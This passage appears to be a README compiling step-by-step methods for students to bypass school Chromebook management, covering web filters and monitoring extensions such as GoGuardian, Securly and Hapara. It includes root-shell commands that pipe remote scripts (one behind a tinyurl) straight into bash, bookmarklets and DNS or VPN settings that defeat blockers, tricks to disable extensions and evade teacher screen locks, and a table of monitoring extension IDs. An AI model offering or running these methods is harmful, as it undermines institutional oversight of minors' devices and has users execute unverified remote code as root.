3. Select one of the apps

4. As soon as you click on the app, quickly hit Alt+Shift+S.

5. This should to launch the toolbar; watch for the "No wifi" screen to appear.

6. After you click the settings on the screen brightness settings in the tool bar, nothing should happen (the tool bar will disappear), and that's normal.

7. Press Ctrl+alt+z to open Chrome Vox, then select Resources, then select a link. Now use the exact keybindings to close Chrome Vox.

8. Entering your password and school account, after click "Sign in as existing user." (Same login for school.) If everything went well, you should notice "muti user sign in disabled on this Chromebook" and be logged into your school account in the kiosk app. To bypass simply press the ESC button.

9. You should be able to exit the browser associated with your school account and see a settings option; try turning on wifi first, then close that window. The window unblocked is the last one. You can launch incognito as well.

</details>

<details>
<summary><b>Skiovox for v121</b> Unrestricted browsing</summary>

**Skiovox Method "121"**

1. signout

2. type your password in (dont enter)

3. click esc + shift + alt + r

4. click "cancel" (dont powerwash your chromebook)

5. do the normal skiovox thingy (ex: turning off wifi, going into the kiosk app, and alt + shift + s'ing then finally going to accessibility and question mark)
-- these next steps have to be fast

6. click "add wifi" then spam esc

7. click add other person and spam esc

**Only works if you have your gmail saved into your chromebook like those who have their gmail saved in their chromebook, so like when you sign out, your pfp would be there and you would only need to type your password basically if it shows usernames and photos on the sign-in screen is enabled by admin.**

</details>

<details>
<summary><b>Fakemurk</b> Trick your Chromebook into being in developer mode while being enrolled in your school's profile</summary>

**Fakemurk is a script that is able to run in developer mode to trick your Chromebook into being in developer mode while being enrolled in your school's profile. You can use this to disable any extension, as well as have full access to the chrome web store and google play store. This basically provides a personal Chromebook-like experience, while still being enrolled.**

Go here and follow instructions: <a href="https://docs.google.com/document/d/1Pku_CbEG9SwQtnm0I188RtpdpW8nXQhiNdMp8PN7Mik/edit?pli=1">Fakemurk Doc</a>

</details>

<details>
<summary><b>Pollen</b> Chrome OS User Policy Editor</summary>

**DEV MODE ONLY**

Normal Use
open crosh

```
run shell
run sudo su
run
curl -Ls https://mercuryworkshop.github.io/Pollen/Pollen.sh | bash
```

then press alt+vol_up+x

to make your own modifactions refer to the Pollen Wiki

<a href="https://github.com/MercuryWorkshop/Pollen/wiki#getting-your-policies">Pollen Modifaction Wiki</a>

</details>

<details>
<summary><b>Customized Pollen</b> Chrome OS Policy Editor Customized</summary>

**Customized Pollen for SH1mmered chrombook users.** 

The original pollen by Mercury Workshop: <a href="https://github.com/MercuryWorkshop/Pollen">Pollen GitHub</a> 

It removes all admin installed extensions and thats kinda a problem for everyone so fruvs (op) edited it to make it fit more for SH1mmer users because fruvs (op) already got caught once cause he got snitched on.

So fruvs (op) customized this one to edit lots of features. But to keep all admin installed extensions so no one get's caught. So fruvs (op) edited some

incognito mode: on (everything unblocked, idk if extensions like GoGauridan can see)

ExtensionSettings: all settings removed

HomepageLocation: chrome://newtab

NewTabPageLocation: (left empty)

ManagedBookmarks: removed all school added bookmarks

PinnedLauncherApps: removed all force pinned apps to home bar

RestoreOnStartupURLs: (set it so when you open a new window some schools forces it to also open the schools homepage so                                                          its set back to new tab and no extra tabs)

WebAppInstallForceList: removed all force installed apps


How to run

Note: Devmode NEEDS to be enabled.
Open Crosh

Run
```
shell
```
Run
```
sudo su
```

Run 
```
curl -Ls https://tinyurl.com/repollen | bash
```

Done! It may take a few seconds for the new policy to apply. If it does not apply, press 
```
alt+vol_up+x
```

Errors

If you have Linux enabled you will have to turn it off and turn it back on for it to work

THIS WILL RESET EVERY TIME YOU RESTART THE CHROMEBOOK SO YOU WILL NEED TO RE DO THE PROCESS

</details>

<details>
<summary><b>Fusion 360 exploit</b> Unblocked browser</summary>

**Some schools have Fusion360 already downloaded and if it isn’t, then download it through the play store. This exploit opens an unblocked browser inside of Fusion.** 

What you do is on the sign-up page, click terms of service. Then there is a YT logo at the bottom. Click it to go to the social media page. Next, click Autodesk under the YouTube text. Using this method, you get unblocked YT! For unblocked google, just look up “google.com link is description”. Go to the description and click google.com. Done! 

The admin can remove apps, so it can still be blocked.

</details>

<details>
<summary><b>Downgrading</b> Change versions</summary>  
Downgrading can be used for several exploits, to get to a version that does not have patches for certain exploits, sutch as LTBEEF. This is a built in feature of ChromeOS.

![image](https://user-images.githubusercontent.com/58097612/212685863-3d6b8ce1-7caa-4735-95a8-8eb6787b227c.png)

<i>Requirements</i>
1. A USB thumb drive with at least 4gb of storage, some board have small or bigger images, I recommend 16gb
2. A personal computer with access to downloading extentions
3. A brain
If you do not have these, you **CAN NOT** perform the exploit!

<i>Setup</i>
1. Navigate to `chrome://version` on the chromebook you with to downgrade and check for your board under `Platform` (ex I have a c3100 and it's board is stable-channel octopus).

<img src="https://user-images.githubusercontent.com/88395302/212484378-65e6e6e3-b995-48a1-b229-3265a4993279.png">

2. Navigate to https://chrome100.dev/ , press `ctrl+f` and type in your board.
3. Find and download the chrome version you want to your personal computer.

<i>Instlation</i>
1. Install Chromebook Recovery Utility onto your personal computer. (found at <a href="https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en">chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm</a>
2. Open the extention, and click on the settings button in to top right hand corner, and click "use local image".
3. Select the recovery image you downloaded from chrome100.
4. Plug in the USB you wish to use, and follow the prompts on the screen.
5. On your chromebook, press esc+reload+power and follow the prompts.
6. On the checking for updates screen, press `ctrl`+`shift`+`e` to skip the "checking for updates" screen.
7. Profit.

</details>

<details>
<summary><b>Killcurly</b> Break extensions</summary>
Kill extension, by signing out.

1. Visit `chrome://settings/signOut`, the O in Out must be capital.
2. Press the big blue button
3. Go to `chrome://restart`
4. Now visit <a href="https://tinyurl.com/AddSession">tinyurl.com/AddSession</a> or <a href="https://accounts.google.com/signin/v2/identifier?hl=en&continue=https%3A%2F%2Fwww.google.com%2F&ec=GAlAmgQ&flowName=GlifWebSignIn&flowEntry=AddSession">this link</a>
5. Add your **SCHOOL** account back. It WILL NOT WORK if you add a home account back. This is just so you can still access Google Drive, Youtube, and any Google service.
6. All extensions should stop working.
7. Note that you have to repeat this every time you restart or sign out.
8. If the link gets patched and you no longer see the blue button, go to `chrome://settings/resetProfileSettings` click current settings, it'll open a blank page, on that page run 
```js
javascript:opener.chrome.send("TurnOffSync");
```
And visit `chrome://restart`.

Workaround for `chrome://settings/signOut` and `javascript:opener.chrome.send("TurnOffSync");` if both patched: Just go to `chrome://settings/syncSetup/advanced` and click 
Customize sync and then flip off the Extensions and Apps or just flip off everything exept for bookmarks

**This was discovered by zoroark and Brandon421-ops**

</details>

<details>
<summary><b>Extention Inactivity hack</b> Inactive Extensions</summary>

1. First do the Esc+Refresh+Power

2. ctrl+d then enter

3. will give you some bullcrap about dev mode is blocked press enter then you will go to a newly restarted chromebook

4. next add wifi-

5. then sign into your account

6. Immediately turn wifi off before extensions load

7. go to `chrome://settings/signOut`

8. click turn off sync and personalization and then turn wifi back on go to whatever site that is extension blocked.

1. Workaround for chrome://settings/signOut if patched: If the link gets patched and you no longer see the blue button, go to `chrome://settings/resetProfileSettings` click current settings, it'll open a blank page, on that page run 
```js
javascript:opener.chrome.send("TurnOffSync");
```
2. Workaround for `chrome://settings/signOut` and `javascript:opener.chrome.send("TurnOffSync");` if both patched: Just go to `chrome://settings/syncSetup/advanced` and click 
Customize sync and then flip off the Extensions and Apps or just flip off everything exept for bookmarks

Note: Before you do any of this do it at home so that way you don have to worry about asking for the school wifi password.

</details>

<details>
<summary><b>New Temporarily Unblock Anything</b> Temporarily Unblock Any Website</summary>

**Might Be Patched on 115 And Above**
  
1. Go to the chrome-extension://Paste the blocker id here/manifest.json page.

2. Go to a new tab page and type in the URL Website you want to unblock don´t go into that website yet just leave it inside the URL Box.

3. Go back to chrome-extension://Paste the blocker id here/manifest.json now create a bookmark called E now click more and In the URL Box you put `chrome://kill` now save that bookmark.

4. Create another bookmark called D click more In the URL Box copy and paste  `javascript:(function () {window.onbeforeunload = function() { return 1; };})()`    Into that URL Box and save that bookmark.

5. Go back to chrome-extension://Paste the blocker id here/manifest.json page and now click bookmark B then quickly go back to the new tab page and click enter now quickly spam bookmark D like 2 or more times now there should be a pop up called do you want to close this page click cancel now boom that website is unblocked until you turn off your chromebook or until you exit out of that website then if that happen´s your gonna have to do all the steps again.

  Easier way for step 2: instead of putting the URL in the new tab box go to chrome-extension://Paste the blocker id here/manifest.json page then click Bookmark E then go to a random website then use the javascript:open('https://YOUR WEBSITE HERE?'+'i'.repeat(1)) Bookmarklet then spam Bookmark D two or more times then a pop up should appear quickly click cancel now boom all done.    Name of Bookmarklet > Unblock Website: javascript:open('https://YOUR WEBSITE HERE?'+'i'.repeat(1))

Note: Save chrome-extension://Paste the blocker id here/manifest.json as a bookmark so you don´t have to come back here and type in the URL thing.

IMPORTANT NOTE: if bookmarklets are blocked your screwed

This workaround was found by <a href="https://github.com/Brandon421-ops">Brandon421-ops</a>

</details>

<details>
<summary><b>Old Temporarily Unblock Anything</b> Temporarily Unblock Any Website</summary>

1. Make a bookmark called tab close blocker now click more on the bottom left corner now in that URL BOX put  `javascript:(function () {window.onbeforeunload = function() { return 1; };})()`

2. Go to a newtab page now go into the URL BOX on the top and put https://YOUR WEBSITE HERE do not click enter yet stay in that URL BOX.

3. Do `search`+`esc` now that should open task manager if `search`+`esc` doesn't work then click the three dots on the top right now scroll down until you find more tools click that and now find task manager click it now boom done with step 3.

4. Find your blocker extension and click it now on the bottom right you should see a button called End process click it now quickly click the URL BOX on the newtab page and click enter now quickly spam the bookmark tab close blocker now a pop up should come up it should have to buttons cancel and leave click cancel and boom done.

  IMPORTANT NOTE: if bookmarklets are blocked your screwed also if task manager or the End process button for task manager is blocked your double screwed.

  </details>

<details>
<summary><b>uBlock Origin</b> Run Code On Pages</summary>

if your school allows the ublock origin chrome extension, then running the edpuzzle script (as well as any other bookmarklet) is possible

1. install ublock origin (<a href="https://chrome.google.com/webstore/detail/ublock-origin/cjpalhdlnbpafiamejdnhcphjbkeiagm">https://chrome.google.com/webstore/detail/ublock-origin/cjpalhdlnbpafiamejdnhcphjbkeiagm</a>)

2. go to the extension's settings

3. under the settings tab, check the "i am an advanced user" box and click on the cog icon

4. inside the advanced settings (`chrome-extension://cjpalhdlnbpafiamejdnhcphjbkeiagm/advanced-settings.html`), scroll down and find `userResourcesLocation` now change `userResourcesLocation` from `unset` to <a href="https://raw.githubusercontent.com/Brandon421-ops/Exploits-And-Hacks/main/ublockExec.js">https://raw.githubusercontent.com/Brandon421-ops/Exploits-And-Hacks/main/ublockExec.js</a>

5. in the My filters tab of the settings (`chrome-extension://cjpalhdlnbpafiamejdnhcphjbkeiagm/dashboard.html#1p-filters.html`), add `*##+js(execute_script.js)` as a filter

6. now you can press `ctrl`+`alt`+`~` to run any js on the current page

7. if you want to run a bookmarklet, just paste in the javascript: url and press ok on the popup

</details>

<details>
<summary><b>Snap&Run</b> Run Code On Pages</summary>

**Executing scripts with the "Snap&Read" extension.**

**Extension <a href="https://chromewebstore.google.com/detail/snapread/mloajfnmjckfjbeeofcdaecbelnblden">Snap&Read</a> must be installed to perform this exploit.**

### Setup
The extension needs to be signed in to an active Snap&Read account before you begin.

**Instructions.**

**Enable the Snap&Read toolbar**
- Open the Snap&Read popup by activating the extension.
- In the extension popup, enable the Snap&Read service by toggling the Snap&Read switch on.

1. Open the Snap&Read popup by activating the extension.

2. In the extension popup, enable the Snap&Read service by toggling the Snap&Read switch on.

3. In the Snap&Read toolbar, click the Show outlines  button.

4. In the Snap&Read outlines panel, click the New outline (+) button at the top left.

5. Enter any text into the outline topic's editable text area.

6. Click the bullet point of the topic.

7. Click the Link to source  option.

8. Click the plus (+) button at the bottom right.

9. Click and switch to the WEBSITE tab.

10. In the Article/Page title input field, enter the name of your chosen bookmarklet.

11. In the URL input field, enter the source of the bookmarklet, starting with `javascript:`.

**Important:** You may need to substitute escape characters for advanced bookmarklets.

12. Click SAVE at the top right.

13. Click and switch to the OUTLINE tab.

14. In the Snap&Read toolbar, click the Hide outlines  button.

### Script Execution

**Instructions**

Follow on a page of your choice.

1. In the Snap&Read toolbar, click the Show outlines  button.

2. In your created outline, click the link separated by parenthasis that contains the bookmarklet.

3. In the Snap&Read toolbar, click the Hide outlines  button.

4. Disable the Snap&Read toolbar

5. Open the Snap&Read popup by activating the extension.

6. In the extension popup, disable the Snap&Read service by toggling the Snap&Read switch off.

**Disable the Snap&Read toolbar**
- Open the Snap&Read popup by activating the extension.
- In the extension popup, disable the Snap&Read service by toggling the Snap&Read switch off.

</details>

<details>
<summary><b>Incognito</b> Bypass Extensions</summary>
IP Servers: Server 1. 52.207.185.90
            Server 2. 158.111.114.159

Step 1. Go to your settings

Step 2. Click on the wifi your using rn then click it again.

Step 3.  Scroll down until you see network once you see the option click it.

Step 4. Scroll down until you find custom name servers now once you find the option click it.

Step 5. Paste in the IP Server.

Step 6. Now there should be a notification saying open new tab click that and now you should be in a small window some instructions and there are 2 buttons click the yellow with black letters button and boom Incognito Mode is Unblocked.
One of the buttons are just a link in blue don´t click that one is just for test´s
Step 7. Go back to the network settings and change back the custom name servers to automatic name servers.
Note: If your connection is slow if your school has more than one wifi then connect to the other wifi that might have a better connection.

Btw if you close out of the Incognito Tab your gonna have to do all the steps again.

Cool Advanced Facts About Incognito Mode:
1. Bypass Extensions Aka Unblock All Websites.
2. Your History Is Hidden From Your School

</details>

<details>
<summary><b>Incognito On The Sign-In Screen</b> Bypass Extensions/Unblocked Google Webview</summary>
Might work but idk if it will

IP Servers: Server 1. 52.207.185.90
            Server 2. 158.111.114.159

Step 1. On the sign-in screen go to your wifi settings and click on the wifi your using rn

Step 2. Then Scroll down until you see network once you see the option click it.

Step 3. Scroll down until you find custom name servers now once you find the option click it.

Step 4. Paste in the IP Server.

Step 5. Now on the network settings click the sign in and now you should be in a small window some instructions and there are 2 buttons click the blue link and boom unblocked webview of google.

Cool Advanced Facts About Incognito Mode:
1. Bypass Extensions Aka Unblock All Websites.
2. Your History Is Hidden From Your School

</details>

<details>
<summary><b>Chrome-Signin Webview</b> Bypass Extensions</summary>
Unblocked Google
  
Step 1. Go to `chrome://chrome-signin`

Step 2. Click ok on the bottom right corner

Step 3. In the Email text box put `google@d11.org`

Step 4. Click `signin options`

Step 5. Now click signin with github

Step 6. Click the github logo

Step 7. In the search box on the top Right type google and then click see more topics then you will see all the google links click `www.google.com` now boom unblocked Google.

</details>

<details>
<summary><b>Chrome-Signin Webview 2</b> Bypass Extensions</summary>
Unblocked Google
  
Step 1. Go to `chrome://chrome-signin`

Step 2. Click ok on the bottom right corner

Step 3. In the Email text box put `google@d11.org`

Step 4. Click `signin options`

Step 5. Now click signin with github

Step 6 Click forgot password instead of github logo

Step 7. Click docs

Step 8. Scroll down

Step 9. Click ask the GitHub community

Step 10. Search google and click the hyperlink on the right

Credit to snail for finding this workaround.

</details>

<details>
<summary><b>Microsoft Labs</b> Bypass Extensions</summary>

YOU NEED A MICROSOFT ACCOUNT FOR THIS

Go to: <a href="https://learn.microsoft.com/en-us/training/modules/implement-common-integration-features-finance-ops/10-exercise-1">https://learn.microsoft.com/en-us/training/modules/implement-common-integration-features-finance-ops/10-exercise-1</a>

Next, sign into your Microsoft account, then if it doesn't already, go back to that link

Then, hit Launch VM Mode See images attached if needed

After it loads it's gonna ask for a password, the password is pass@word1 See images attached if needed

Then boom, you are done.

It's still kinda limited, like you can't go on Spotify sound doesn't output anyway and it, blocks random sites, but discord 100% works

Thanks to a user in TN, I was informed the best vpn to get around the FortiNet thing "Greenhub" on the Edge add-ons 

</details>

<details>
<summary><b>Quick View</b> Bypass Extensions</summary>

**QuickView is a universal webview exploit in Chrome OS that utilizes the QuickOffice component extension. This exploit lets you create login windows with arbitrary URLs, thus allowing you to load pages without any extensions.**

Go to <a href="https://quickview-exploit.pages.dev/">this link</a> and follow instructions

WARNING: If `javascript://` is blocked then you can't preform this exploit

Credit to <a href="https://ading.dev/">ading2210</a> and <a href="https://buymeacoffee.com/bypassi">Bypassi#7037</a> for finding this exploit

</details>

<details>
<summary><b>Buypass</b> Temporarily Unblock Websites</summary>

Exploit Made By <a href="https://buymeacoffee.com/bypassi">Bypassi#7037</a>

Here's the original github repo of the buypass exploit: <a href="https://github.com/bypassiwastaken/buypass">Bypassi#7037's Buypass Exploit Github Repo</a>

Here's the original website of the buypass exploit: <a href="https://buypass.bypassi.com/">Bypassi#7037's Buypass Exploit Website</a>

Here's the forked github repo of the buypass exploit: <a href="https://github.com/Brandon421-ops/buypass">Brandon421-ops's Forked Buypass Exploit Github Repo</a>

Here's 3 alternative websites of the buypass exploit:

1. <a href="https://buypass.brandonprather.repl.co/">Buypass Exploit Repl Website</a>

2. <a href="https://buypass.glitch.me/">Buypass Exploit Glitch Website</a>

3. <a href="https://buypass.netlify.app/">Buypass Exploit netlify.app Website</a>

This Exploit Is Kinda Similar To The Quick View Exploit

</details>

<details>
<summary><b>[Webview] Testnav Exploit</b> Unblocked Webview for either google or a web browser</summary>

Step 1. Download Testnav off the webstore/playstore/or run as a kiosk app as some schools have it added as one

Step 2. Open it

Step 3. After opened it will probably bring you to the page were you select your consumer, click aimsweb/aimsweb plus

Step 4. After you click goto select your district in the bottom right corner of the page

Step 5. Select “STRATFORD FRIENDS SCHOOL” 

Step 6. Click the arrow to the right of the selection box

Step 7. Click sign in options
a) Click sign in with github

Step  8. Click the github logo at the top of the screen

Step 9. Click the three bars in the top right corner, then goto the search box and type in googleyay

Step 11. Scroll down until you see DerDer56/googleyay

Step 12. There's several links to choose from, but if there's a link you want that's not there click the Bypassi Redirect Tool

(Optional) Step 13. Type in the link you want to go on and click "Go To the URL"

Step 14. Click it and you have webview (unblocked browser)

</details>

<details>
<summary><b>OP Crosh</b> Disable extensions with crosh and vmc</summary>

### Requirements
- A managed Chromebook with crosh enabled
- The `VmManagementCliAllowed` policy either unset or set to true
- Some form of removable media for noting down extension IDs (only useful for the second method and not required, but this prevents you from mistyping an extension ID).
- A willingness to powerwash

### There are two variations to this method:
1. Disabling all extensions. This is probably the most reliable, but you'd be left without useful extensions such as any adblockers. You also aren't able to install anything from the Chrome Web Store either.

2. Disabling specific extensions. This is less reliable, since this only becomes possible once Chrome OS has installed at least one extension already, which could be one that you're trying to disable.

### Testing if the method is possible:
1. Open crosh by hitting `ctrl`+`alt`+`t`
. If a command line pops up then you have crosh enabled and you can move on to step 2.

2. Test the `VmManagementCliAllowed` policy by running the `vmc` command. If a list of subcommands is shown, then you're good to go.

### Instructions:
1. Back up any data you want before the powerwash.

2. If you're doing the second variation, note down any extension IDs. You may also want to do this if you intend on disabling all extensions, since sometimes that will fail and require you to specify each extension you want to disable.

3. Powerwash by attempting to enable developer mode. Instructions are available <a href="https://chromium.googlesource.com/chromiumos/docs/+/master/developer_mode.md#dev-mode">here</a>.

4. Log into your Google account as normal, but immediately disable your internet right after you sign in.

5. You should be logged into your account, but without any extensions installed due to being offline.

6. Here the instructions are split, so follow the one for the method that you want to do.
 
### Disable All Extensions:
1. Open up crosh by hitting `ctrl`+`alt`+`t`

2. Type in `vmc create-extra-disk --size 1 /home/chronos/user/Extensions`

3. Run that command.

4. If it fails with a "file exists" error, then you must individually specify each extension that you want to remove. Move to step 5 of the next section to do that.

5. Re-enable your internet, and no extensions should be installed.
 

### Disable Specific Extensions:
1. Navigate to `chrome://extensions`.

2. Enable your internet, and immediately disable it when an extension is installed.

3. Assuming the installed extension was not one that you were trying to disable, move on to step 4. If it was, you'd have to powerwash to try again.

4. Open up crosh by hitting `ctrl`+`alt`+`t`.

5. For each extension you want to disable, run this command: `vmc create-extra-disk --size 1 /home/chronos/user/Extensions/{extension_id}`

6. Each command should look something like this: `vmc create-extra-disk --size 1 /home/chronos/user/Extensions/cjpalhdlnbpafiamejdnhcphjbkeiagm`

7. Re-enable your internet, and if you typed/pasted in the extension IDs correctly, those specific extensions should be blocked from ever being installed.

Credit to <a href="https://ading.dev/">ading2210</a> for finding this exploit

</details>

<details>
<summary><b>GoGuardian Fever</b> Disable GoGuardian</summary>

IF YOU DO NOT HAVE GOGUARDIAN THIS EXPLOIT WILL NOT WORK FOR YOU
Getting Started

1. Obviously (but still needs to be said due to skids in Titanium Network), make sure GoGuardian is actually installed

2. Visit any of the links and copy the text in it and paste it in a newtab <a href="https://github.com/Brandon421-ops/Exploits-And-Hacks/blob/main/GoGuardian%20Fever.txt">Link 1</a> <a href="https://raw.githubusercontent.com/Brandon421-ops/Exploits-And-Hacks/main/GoGuardian%20Fever.txt">Link 2</a> <a href="https://pastebin.com/raw/ytcMuigM">Link 3</a>

3. On that tab there will be a simple white screen with nothing on it, reload the page

4. If the GET request fails and you are left on an error screen (don't panic, this is intended, continue)

5. Visit `chrome://restart` to clear cached sites from GoGuardian

Enjoy a free browsing context

To undo

1. On <a href="https://goguardian.com">goguardian.com</a>, press the lock icon at the top left of the screen

2. Press cookies and site data

3. Click manage cookies

4. Then click clear each site's cookies you see there

</details>

<details>
<summary><b>Disable GoGuardian With The Chat</b> Disable GoGuardian [Unreliable]</summary>

1. wait until your teacher opens the chat window thingy

2. spam the x button until it stops re-opening

3. open the url `chrome-extension://haldlgldplgnggkjaafhelgiaglafanh/manifest.json`

4. open `chrome://extensions/?id=haldlgldplgnggkjaafhelgiaglafanh`, and toggle the “allow access to file:// urls” switch

goguardian is now disabled and you can close both tabs 

made by carteeeee

</details>

<details>
<summary><b>GoGuardian TabCrash</b> Disables GoGuardian Actions w/TAB LIMIT</summary>

**Teacher's can still see your screen, but they can't block or close any of your tabs.**

**YOUR TEACHER NEEDS TO HAVE SET A TAB LIMIT. TRY OPENING TONS OF TABS TO CONVINCE THEM TO ENABLE TAB LIMITS**.

1. create a bookmark named anything: `javascript: window.onbeforeunload = ()=>{return false;}`

2. Hold down CTRL and then SPAM CLICK the bookmark until you're well above the tab limit, opening a bunch of `about:blank` pages.

3. It might ask if you want to leave this page, this is goguardian trying to close it. Say No, and click `Prevent from creating additional dialogues`.

4. Enjoy your unblocked stay!

To undo: close all of your `about:blank` tabs

#### Discovered by @py660

</details>

<details>
<summary><b>GoGuardian TabCrash 2</b> Disables GoGuardian Actions w/TAB LIMIT</summary>

**If your teacher has turned on the tab limit you can bypass this with an extension. If the extension is blocked, sorry.**

Step 1. Download the extension <a href="https://chromewebstore.google.com/detail/read-aloud-a-text-to-spee/hdhinadidafjejdhmfkjgnolgimiaplp">Read Aloud: A Text to Speech Voice Reader</a>

Step 2. Use one of your tabs to go to IReady or Scratch. You just need a site that would display the error when you close the tab "Are you sure you want to close this site? Unsaved changes could be lost." 

Step 3. When you have the site with unsaved changes, click the extension until you see the error. Click cancel on the error.

Step 4. The extension should have opened some tabs which say: "Read Aloud uses this tab for audio playback."

Step 5. If you saw the error and clicked cancel, you should have bypassed the tab limit.

</details>

<details>
<summary><b>Insecurly</b> Toggle the Securly extension</summary>

**ONLY FOR SECURLY USERS**

Go to <a href="https://www.disablesecurly.com/">this link</a> and follow instructions

If blocked then go cry in a corner

Credit to <a href="https://www.buymeacoffee.com/bypassi">Bypassi#7037</a> for finding/Making this exploit

</details>

<details>
<summary><b>A Bypass For Securly and a few of other blocker extensions</b> Manipulate any website so securly or any other blocker extension can't block it</summary>

At any URL put #translate.google.com at the end of it or put ?suicidepreventionlifeline.org at the end of it and bam you just unblocked a website by Manipulating the URL

This only works for securly and some other blocker extensions

</details>

<details>
<summary><b>Glitch through securly</b> Unblock any website blocked from securly</summary>

**This only works if your admin/school uses securly. Not sure if this can be blocked or not. So im going to do this step by step**

1. Go to the blocked site you want to access

2. Once it shows the blocked page copy the url it shows

3. Go to the url bar and delete everything between https:// and the first "?"

4. Paste the website url

5. press enter and voila it should be unblocked

6. Have fun

confirmed working with xbox cloud gaming and now.gg

If it doesn't work then go cry.

</details>

<details>  
<summary><b>SOT Exploit</b> Unblock any website or Open any website in a about:blank page</summary>

1. Download this extension <a href="https://chromewebstore.google.com/detail/onetab/chphlpgkkbolifaimnlloiipkdnihall">One Tab</a>

2. Click the import button in the settings tab.

3. Copy-paste the URL you wish to visit about 100 times, and then click import.

4. Spam click the top link, then either spam escape on one of them or wait for one to load on a about:blank page.
  
Credit to <a href="https://github.com/Coding4Hours">Coding4Hours</a>

</details>

<details>
<summary><b>Chaos</b> A full bypass method for Hapara Highlights and Hapara Filter</summary>

**Devtools must not be blocked by policy to perform this exploit.**

Go to <a href="https://xlak.github.io/chaos/">this link</a> and follow instructions

If blocked then go cry in a corner

</details>

<details>  
<summary><b>Filter session bypass</b> Bypass hapara filter session</summary>

Bookmark this link: <a href="filtersessionbypass.txt">filtersessionbypass.txt</a>

During a filter session, right click the link, and press "Open in a new tab"
Then insert the URL for any website you want to go to.  Make sure to include https://<br>
If it says "website name refused to connect", try using a web proxy.<br>
Also this dosn't bypass blocker extentions so use an unblocked link, or another exploit.

</details>

<details>  
<summary><b>Hapara Lock Screen Bypass</b> Bypass Hapara Lock Screen</summary>

1. Make bookmarks of pages you want to visit beforehand.

2. Once your screen is paused, spam unfullscreen. Each time you do, you should see your tabs and bookmark bar come back. Attempt to right-click on the bookmarks bar until a menu shows up.

3. In the menu, select “Add folder”. Name it whatever you like. Hit Done. With luck, your tabs and bookmarks should stay at the top of your screen. If not, try again.

4. Once the tab and bookmarks bar stays, spam-click one of the bookmarks you made. This lags Hapara into displaying your page instead of the pause page. Turn off your wifi as soon as the page fully loads. This stops data flow between your amd the teacher’s computer, so that they can’t re-pause your screen.

</details>

<details>
<summary><b>Network Bypassing Via DNS</b> A bypass for any network filters</summary>

**A network filter is something that blocks website on the actual network instead of the operating system. Thus you can't disable with exploits like LTBEEF or LTMEAT.**

IP Server 1: 8.8.8.8 in all boxes

IP Server 2: 1.1.1.1 in the first box and 1.0.0.1 in the second box the third and fourth box stay 0.0.0.0

Step 1. Go to your settings

Step 2. Click on the wifi your using rn then click it again.

Step 3.  Scroll down until you see network once you see the option click it.

Step 4. Scroll down until you find custom name servers now once you find the option click it.

Step 5. Paste in one of the IP Server's.

Note: If IP Server 1 doesn't work then use IP Server 2 if IP Server 2 doesn't work then try using IP Server 1 if they both don't work your screwed

</details>

<details>  
<summary><b>Network Bypassing Via VPN</b> A bypass for any network filters</summary>

**A network filter is something that blocks website on the actual network instead of the operating system. Thus you can't disable with exploits like LTBEEF or LTMEAT.**

Go to <a href="https://drive.google.com/file/d/1MGVFf8d9pww0M2bO9ogxQX1LyR1y6zc_/view">this link</a> once you have downloaded the ONC file. Goto chrome://network and press "Import ONC File". You will have know if it worked if it says: "Network imported: 1". Then click on the time, or goto settings. Find VPN, click on it and click on the "Haven VPN" it will say "Connected" and now you are free.


If chrome://network is blocked, start bawling your eyes out and beat up your IT manager. 

</details>

<details>
<summary><b>List of tools</b> </summary>

<details>  
<summary><b>Extension ID's</b> </summary>

|Extension Name|Extension ID|
|--------------|------------|
|GoGuardian|`haldlgldplgnggkjaafhelgiaglafanh`|
|Mobile Guardian (installed)|`fgmafhdohjkdhfaacgbgclmfgkgokgmb`|
|<a href="https://chrome.google.com/webstore/detail/mobile-guardian/nglbmaiijljohnphofifiodoommladkj">Mobile Guardian (setup)</a>|`nglbmaiijljohnphofifiodoommladkj`|
|<a href="https://chrome.google.com/webstore/detail/securly-for-chromebooks/iheobagjkfklnlikgihanlhcddjoihkg">Securly (webstore)</a>|`iheobagjkfklnlikgihanlhcddjoihkg`|
|Securly|`joflmkccibkooplaeoinecjbmdebglab`|
|Securly (old)|`iheobagjkfklnlikgihanlhcddjoihkg`|
|Securly Classroom|`jfbecfmiegcjddenjhlbhlikcbfmnafd`|
|<a href="https://chrome.google.com/webstore/detail/blocksi-enterprise-editio/ghlpmldmjjhmdgmneoaibbegkjjbonbk">Blocksi</a>|`pgmjaihnmedpcdkjcgigocogcbffgkbn`|
|<a href="https://chrome.google.com/webstore/detail/iboss-cloud-enterprise/kmffehbidlalibfeklaefnckpidbodff">iBoss</a>|`kmffehbidlalibfeklaefnckpidbodff`|
|<a href="https://chrome.google.com/webstore/detail/forticlient-chromebook-we/igbgpehnbmhgdgjbhkkpedommgmfbeao">Fortiguard</a>|`igbgpehnbmhgdgjbhkkpedommgmfbeao`|
|<a href="https://chrome.google.com/webstore/detail/cisco-umbrella-chromebook/jcdhmojfecjfmbdpchihbeilohgnbdci">Cisco Umbrella</a>|`jcdhmojfecjfmbdpchihbeilohgnbdci`|
|NetRef|`khfdeghnhlpdfeenmdofgcbilkngngcp`|
|<a href="https://chrome.google.com/webstore/detail/ckauthenticator/jdogphakondfdmcanpapfahkdomaicfa">ContentKeeper</a>|`jdogphakondfdmcanpapfahkdomaicfa`|
|CK-Authenticator G3|`odoanpnonilogofggaohhkdkdgbhdljp`|
|<a href="https://chrome.google.com/webstore/detail/hapara-highlights-extensi/kbohafcopfpigkjdimdcdgenlhkmhbnc">Hapara</a>|`kbohafcopfpigkjdimdcdgenlhkmhbnc`|
|Smoothwall|`jbldkhfglmgeihlcaeliadhipokhocnm`|
|Linewize|`ddfbkhpmcdbciejenfcolaaiebnjcbfc`|
|<a href="https://chrome.google.com/webstore/detail/lanschool-air-chrome-exte/baleiojnjpgeojohhhfbichcodgljmnj">LANSchool</a>|`baleiojnjpgeojohhhfbichcodgljmnj`|
|<a href="https://chrome.google.com/webstore/detail/lanschool-web-helper/honjcnefekfnompampcpmcdadibmjhlk">LanSchool Web Helper</a>|`honjcnefekfnompampcpmcdadibmjhlk`|
|Lightspeed Filter Agent|`adkcpkpghahmbopkjchobieckeoaoeem`|
|Lightspeed Device Insider Agent|`njdniclgegijdcdliklgieicanpmcngj`|
|<a href="https://chrome.google.com/webstore/detail/interclass-filtering-serv/jbddgjglgkkneonnineaohdhabjbgopi">InterCLASS Filtering Service</a>|`jbddgjglgkkneonnineaohdhabjbgopi`|
